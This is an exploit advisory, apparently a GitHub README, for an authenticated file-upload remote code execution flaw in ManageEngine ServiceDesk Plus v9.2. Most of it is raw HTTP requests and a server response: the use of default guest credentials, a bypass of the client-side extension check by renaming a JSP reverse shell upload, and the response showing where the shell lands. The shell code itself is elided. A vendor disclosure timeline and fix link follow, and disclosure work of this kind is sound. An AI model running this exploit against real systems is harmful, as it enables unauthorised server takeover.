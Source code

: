 # ManageEngineFileUpload


Exploit Title: Authenticated Remote Code Execution via File Upload Vulnerability in ManageEngine ServiceDesk Plus (Authenticated)


Date: 14-Nov-2016


Discovered by Omer Alper Karakus (omeralperkarakus[at]gmail.com), Abdullah Sinan Sekerci (lpthread999[at]gmail.com), Anil Aytac (4nl[at]aytac.email), Asli Koksal (koksal.a[at]gmail.com), STM


Affected Product: ManageEngine ServiceDesk Plus


Tested on: v9.2 build number 9232


File upload vulnerability can only be exploited by an authenticated user which can also be any low privileged user like guest (default account: u:guest/p:guest)
This vulnerability can be exploited by uploading a JSP file instead of image file. Since the file extension has been checked on the client side, it is possible to upload a jsp file which contains a reverse shell by intercepting the request and changing the file extension from .jsp.jpg to .jsp.

<pre>
REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp.jpg"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>

<pre>
EDITED REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>
<pre>
After a succesful request, the response shows us the location of our reverse shell file:
RESPONSE
===========================================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 528
Date: Tue, 15 Nov 2016 08:27:55 GMT
Connection: close
Server: -
		&lt;script lang="JavaScript" type="text/JavaScript"&gt;
  		var formName = parent.document.getElementById("FORMNAME").value;
		var opts = parent.document.forms[formName].INLINEIMAGES.options;
		var imgName = "1479198475119.jsp";
		var option = new Option(imgName, imgName);
		option.selected = true;
		opts[opts.length] = option;
  		//alert("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");
  		parent.ZE.activeEditor.previewImage("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");//No i18n
		&lt;/script&gt;
</pre>		
		
<pre>
Timeline
======
 
15-Nov-2016 – Notification to Vendor
18-Nov-2016 – Response from Vendor
01-Dec-2016 - Issue has been fixed by vendor https://www.manageengine.com/products/service-desk/readme-9.2.html
</pre>
